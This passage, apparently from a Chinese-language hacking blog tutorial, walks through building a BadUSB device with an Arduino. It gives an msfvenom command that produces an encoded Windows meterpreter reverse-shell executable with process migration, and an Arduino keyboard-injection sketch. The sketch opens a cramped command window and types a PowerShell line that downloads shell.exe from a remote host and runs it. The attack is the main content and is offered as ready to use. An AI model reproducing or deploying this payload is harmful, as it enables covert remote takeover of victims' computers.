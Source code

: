 ![image-20230527100624124](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271006145.png)

**接着我们用Msfvenom生成可执行文件,代码如下：**

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=平台给出的IP LPORT=平台给出的端口 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrendMigrate=true PrendMigrateProc=svchost.exe -f exe -o /root/shell.exe
```

注：如果是64位系统，Payload则更改为：windows/x64/meterpreter/reverse_tcp对于小白很陌生带两个值是可以实现自动迁移进程的功能，关闭其中一进程并不影响另一进程。

-k选项并不适用于所有模板，请提前做好测试。

##  **安装Arduino**

**首先我们打开****arduino****安装包**

![image-20230527100811363](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008384.png)

![image-20230527100815346](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008365.png)

![image-20230527100819320](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008341.png)

![image-20230527100823362](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008382.png)

![image-20230527100826999](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008024.png)

**完成了安装。**

**配置如下：**

![image-20230527100836501](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008524.png)

完成安装。

![image-20230527100849268](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008300.png)

##  **烧录代码**

**代码贴出**：

```shell
#include <Keyboard.h>
void setup() {//初始化
  Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  delay(500); 
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.println("CMD.EXE /t:01 /k MODE con: cols=16 lines=2");
  delay(1000);
  Keyboard.println("POWERSHELL -cOMMAND $CLNT = NEW-OBJECT sYSTEM.nET.wEBcLIENT;$URL= 'http://ip/shell.exe';$FILE = ' c:\\SHELL.EXE ';$CLNT.dOWNLOADfILE($URL,$FILE);");
  delay(3000);
  Keyboard.println("C:\\SHELL.EXE&EXIT");
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
```